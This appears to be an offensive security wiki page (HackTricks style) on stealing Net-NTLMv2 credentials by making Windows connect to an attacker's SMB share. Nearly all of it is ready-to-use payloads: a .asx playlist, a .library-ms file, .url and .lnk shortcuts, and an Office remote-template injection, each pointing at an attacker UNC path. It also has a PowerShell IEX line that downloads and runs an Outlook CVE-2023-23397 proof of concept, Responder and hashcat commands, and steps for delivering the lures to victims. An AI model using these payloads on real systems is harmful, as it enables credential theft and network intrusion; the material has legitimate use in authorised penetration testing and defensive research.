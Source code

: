 # Places to steal NTLM creds

{{#include ../../banners/hacktricks-training.md}}

**Check all the great ideas from [https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/) from the download of a microsoft word file online to the ntlm leaks source: https://github.com/soufianetahiri/TeamsNTLMLeak/blob/main/README.md and [https://github.com/p0dalirius/windows-coerced-authentication-methods](https://github.com/p0dalirius/windows-coerced-authentication-methods)**


### Windows Media Player playlists (.ASX/.WAX)

If you can get a target to open or preview a Windows Media Player playlist you control, you can leak Net‑NTLMv2 by pointing the entry to a UNC path. WMP will attempt to fetch the referenced media over SMB and will authenticate implicitly.

Example payload:

```xml
<asx version="3.0">
  <title>Leak</title>
  <entry>
    <title></title>
    <ref href="file://ATTACKER_IP\\share\\track.mp3" />
  </entry>
</asx>
```

Collection and cracking flow:

```bash
# Capture the authentication
sudo Responder -I <iface>

# Crack the captured NetNTLMv2
hashcat hashes.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
```

### ZIP-embedded .library-ms NTLM leak (CVE-2025-24071/24055)

Windows Explorer insecurely handles .library-ms files when they are opened directly from within a ZIP archive. If the library definition points to a remote UNC path (e.g., \\attacker\share), simply browsing/launching the .library-ms inside the ZIP causes Explorer to enumerate the UNC and emit NTLM authentication to the attacker. This yields a NetNTLMv2 that can be cracked offline or potentially relayed.

Minimal .library-ms pointing to an attacker UNC

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <version>6</version>
  <name>Company Documents</name>
  <isLibraryPinned>false</isLibraryPinned>
  <iconReference>shell32.dll,-235</iconReference>
  <templateInfo>
    <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
  </templateInfo>
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <simpleLocation>
        <url>\\10.10.14.2\share</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
```

Operational steps
- Create the .library-ms file with the XML above (set your IP/hostname).
- Zip it (on Windows: Send to → Compressed (zipped) folder) and deliver the ZIP to the target.
- Run an NTLM capture listener and wait for the victim to open the .library-ms from inside the ZIP.


### Outlook calendar reminder sound path (CVE-2023-23397) – zero‑click Net‑NTLMv2 leak

Microsoft Outlook for Windows processed the extended MAPI property PidLidReminderFileParameter in calendar items. If that property points to a UNC path (e.g., \\attacker\share\alert.wav), Outlook would contact the SMB share when the reminder fires, leaking the user’s Net‑NTLMv2 without any click. This was patched on March 14, 2023, but it’s still highly relevant for legacy/untouched fleets and for historical incident response.

Quick exploitation with PowerShell (Outlook COM):

```powershell
# Run on a host with Outlook installed and a configured mailbox
IEX (iwr -UseBasicParsing https://raw.githubusercontent.com/api0cradle/CVE-2023-23397-POC-Powershell/main/CVE-2023-23397.ps1)
Send-CalendarNTLMLeak -recipient user@example.com -remotefilepath "\\10.10.14.2\share\alert.wav" -meetingsubject "Update" -meetingbody "Please accept"
# Variants supported by the PoC include \\host@80\file.wav and \\host@SSL@443\file.wav
```

Listener side:

```bash
sudo responder -I eth0  # or impacket-smbserver to observe connections
```

Notes
- A victim only needs Outlook for Windows running when the reminder triggers.
- The leak yields Net‑NTLMv2 suitable for offline cracking or relay (not pass‑the‑hash).


### .LNK/.URL icon-based zero‑click NTLM leak (CVE‑2025‑50154 – bypass of CVE‑2025‑24054)

Windows Explorer renders shortcut icons automatically. Recent research showed that even after Microsoft’s April 2025 patch for UNC‑icon shortcuts, it was still possible to trigger NTLM authentication with no clicks by hosting the shortcut target on a UNC path and keeping the icon local (patch bypass assigned CVE‑2025‑50154). Merely viewing the folder causes Explorer to retrieve metadata from the remote target, emitting NTLM to the attacker SMB server.

Minimal Internet Shortcut payload (.url):

```ini
[InternetShortcut]
URL=http://intranet
IconFile=\\10.10.14.2\share\icon.ico
IconIndex=0
```

Program Shortcut payload (.lnk) via PowerShell:

```powershell
$lnk = "$env:USERPROFILE\Desktop\lab.lnk"
$w = New-Object -ComObject WScript.Shell
$sc = $w.CreateShortcut($lnk)
$sc.TargetPath = "\\10.10.14.2\share\payload.exe"  # remote UNC target
$sc.IconLocation = "C:\\Windows\\System32\\SHELL32.dll" # local icon to bypass UNC-icon checks
$sc.Save()
```

Delivery ideas
- Drop the shortcut in a ZIP and get the victim to browse it.
- Place the shortcut on a writable share the victim will open.
- Combine with other lure files in the same folder so Explorer previews the items.


### Office remote template injection (.docx/.dotm) to coerce NTLM

Office documents can reference an external template. If you set the attached template to a UNC path, opening the document will authenticate to SMB.

Minimal DOCX relationship changes (inside word/):

1) Edit word/settings.xml and add the attached template reference:

```xml
<w:attachedTemplate r:id="rId1337" xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships"/>
```

2) Edit word/_rels/settings.xml.rels and point rId1337 to your UNC:

```xml
<Relationship Id="rId1337" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="\\\\10.10.14.2\\share\\template.dotm" TargetMode="External" xmlns="http://schemas.openxmlformats.org/package/2006/relationships"/>
```

3) Repack to .docx and deliver. Run your SMB capture listener and wait for the open.

For post-capture ideas on relaying or abusing NTLM, check:

{{#ref}}
README.md
{{#endref}}


## References
- [HTB Fluffy – ZIP .library‑ms auth leak (CVE‑2025‑24071/24055) → GenericWrite → AD CS ESC16 to DA (0xdf)](https://0xdf.gitlab.io/2025/09/20/htb-fluffy.html)
- [HTB: Media — WMP NTLM leak → NTFS junction to webroot RCE → FullPowers + GodPotato to SYSTEM](https://0xdf.gitlab.io/2025/09/04/htb-media.html)
- [Morphisec – 5 NTLM vulnerabilities: Unpatched privilege escalation threats in Microsoft](https://www.morphisec.com/blog/5-ntlm-vulnerabilities-unpatched-privilege-escalation-threats-in-microsoft/)
- [MSRC – Microsoft mitigates Outlook EoP (CVE‑2023‑23397) and explains the NTLM leak via PidLidReminderFileParameter](https://www.microsoft.com/en-us/msrc/blog/2023/03/microsoft-mitigates-outlook-elevation-of-privilege-vulnerability/)
- [Cymulate – Zero‑click, one NTLM: Microsoft security patch bypass (CVE‑2025‑50154)](https://cymulate.com/blog/zero-click-one-ntlm-microsoft-security-patch-bypass-cve-2025-50154/)


{{#include ../../banners/hacktricks-training.md}}